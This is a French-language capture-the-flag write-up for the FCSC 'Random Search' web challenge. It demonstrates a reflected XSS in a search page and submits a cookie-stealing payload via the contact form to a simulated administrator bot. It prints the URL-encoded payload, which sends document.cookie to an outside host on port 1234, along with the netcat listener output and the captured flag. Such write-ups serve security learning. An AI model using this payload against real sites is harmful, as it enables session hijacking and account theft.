










# Random Search




# Petit tour

Sur ce challenge, nous nous connectons sur un serveur avec una application de recherche de sites.



Il y a un champ de recherche et une page de contact.





# Recherche de la faille

Comme l'énoncé l'explique, il faut ici récupérer le contenu du cookie de l'administrateur.
Pour ce faire, il faut exploiter une faille [XSS](https://fr.wikipedia.org/wiki/Cross-site_scripting).

Nous avons 2 champs de formulaire ici. Un champ de recherche et un champs de saisie d'[URL](https://fr.wikipedia.org/wiki/Uniform_Resource_Locator) (pour remonter un problème sur les résultats de recherches).

On peut supposer ici que si l'on rentre une [URL](https://fr.wikipedia.org/wiki/Uniform_Resource_Locator), l'administrateur du site va recevoir une notification pour aller voir quelle est la page qui pose problème.

Pour ce faire, on regarde d'abord à quoi ressemble le code source de la page des résultats de recherches :



On voit ici la valeur de recherche qui apparait. On va tester si on peut y injecter du code [HTML](https://fr.wikipedia.org/wiki/Hypertext_Markup_Language) (et surtout si on peut executer du [Javascript](https://fr.wikipedia.org/wiki/JavaScript)).

Essayons d'injecter le code suivant :

```html
test</h1><script>alert("prout")</script><h1> plouf
```

Résultat :



BINGO !

L'injection a marché ici :



On voit ici qu'on a réussi a injecter sur code [HTML](https://fr.wikipedia.org/wiki/Hypertext_Markup_Language) et [Javascript](https://fr.wikipedia.org/wiki/JavaScript) dans la page, et que donc les caractères ne sont pas [échappés](https://fr.wikipedia.org/wiki/Caract%C3%A8re_d%27%C3%A9chappement).


# Exploit

Nous savons donc que :
- Une faille [XSS](https://fr.wikipedia.org/wiki/Cross-site_scripting) est présente.
- Que l'on peut injecter du [Javascript](https://fr.wikipedia.org/wiki/JavaScript).

On peut supposer que :
- Le formulaire de contact permet d'envoyer à l'administrateur un lien et donc, de le stocker quelque part (en base de données par exemple).
- L'administrateur passe à un moment donné sur cette page pour vérifier le problème.

Faisons un test d'injection qui pourrait faire une requete sur un serveur que nous contrôlons pour voler le cookie.

[Exploit](https://fr.wikipedia.org/wiki/Exploit_(informatique)) :

```html
https://www.ecuri.es/truc</h1><script>document.write('')</script><h1> plouf
```

Dans le champ de recherche, on met une [URL](https://fr.wikipedia.org/wiki/Uniform_Resource_Locator) valide, puis on ferme la balise [HTML](https://fr.wikipedia.org/wiki/Hypertext_Markup_Language) `</h1>`.

On injecte du [Javascript](https://fr.wikipedia.org/wiki/JavaScript) qui dit d'ajouter une image qui se trouve sur l'[URL](https://fr.wikipedia.org/wiki/Uniform_Resource_Locator) `http://ecuri.es:1234?cookie=` auquel on concatène la valeur des cookies du navigateur que l'on récupère via `document.cookie`. Puis, on ferme la balise de script et on rouvre une balise `<h1>` avec du contenu divers pour ne pas casser le [DOM](https://fr.wikipedia.org/wiki/Document_Object_Model) [HTML](https://fr.wikipedia.org/wiki/Hypertext_Markup_Language).

Sur mon serveur (ecuri.es), j'ai ouvert le port 1234 avec [netcat](https://fr.wikipedia.org/wiki/Netcat) pour voir la requête [HTTP](https://fr.wikipedia.org/wiki/Hypertext_Transfer_Protocol) qui est executée et voir le résultat de notre [Exploit](https://fr.wikipedia.org/wiki/Exploit_(informatique)).

L'exploit executé :



On voit ici que l'on a une image "cassé". Normal vu qu'il essaye de récupérer une image sur http://ecuri.es:1234 qui n'existe pas.

Résultat de [netcat](https://fr.wikipedia.org/wiki/Netcat) :

```shell
root@ecurie:~# nc -lvp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xxx] from xxxxxxxx [xxx.xxx.xxx.x] 34149
GET /?cookie= HTTP/1.1
Host: ecuri.es:1234
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: image/webp,*/*
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://challenges2.france-cybersecurity-challenge.fr:5001/
```

On voit ici qu'on récupère bien une requête executée par le navigateur.

On remarque aussi le `GET /?cookie=` que l'on a injecter dans le code [Javascript](https://fr.wikipedia.org/wiki/JavaScript).


Nous allons donc soumettre ce [payload](https://fr.wikipedia.org/wiki/Charge_utile) (encodé en [URL encoding / encodage pourcent](https://fr.wikipedia.org/wiki/Encodage-pourcent) (en français)) sur la page de contact du site en croisant les doigts que l'administrateur clique dessus. (En vrai il n'y a pas un humain qui valide chaque lien qu'on lui envoie. Sinon le pauvre... C'est un bot qui tourne et qui simule un administrateur (Oui, on sait, parfois, automatiser des administrateurs systemes ;)).

```url
http%3A%2F%2Fwww.ecuri.es%2Ftruc%3C%2Fh1%3E%3Cscript%3Edocument.write(%27%3Cimg%20src%3D%22http%3A%2F%2Fecuri.es%3A1234%3Fcookie%3D%27%20%2B%20document.cookie%20%2B%20%27%22%20%2F%3E%27)%3C%2Fscript%3E%3Ch1%3E%20plouf
```



On patiente un petit peu, et tout d'un coup, dans notre shell sur le serveur de tout à l'heure :

```shell
root@ecurie:~# nc -lvp 1234
listening on [any] 1234 ...
connect to [xxx.xxx.xxx.xxx] from ns3049096.ip-151-80-29.eu [151.80.29.147] 47574
GET /?cookie=admin=FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633} HTTP/1.1
Host: ecuri.es:1234
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:87.0) Gecko/20100101 Firefox/87.0
Accept: image/webp,*/*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://random-search-web:5001/
Connection: keep-alive
```

ET PLOUF ! On récupère le contenu des cookies de l'administrateur qui contient le flag !

```
FCSC{4e0451cc88a9a96e7e46947461382008d8c8f4304373b8907964675c27d7c633}
```


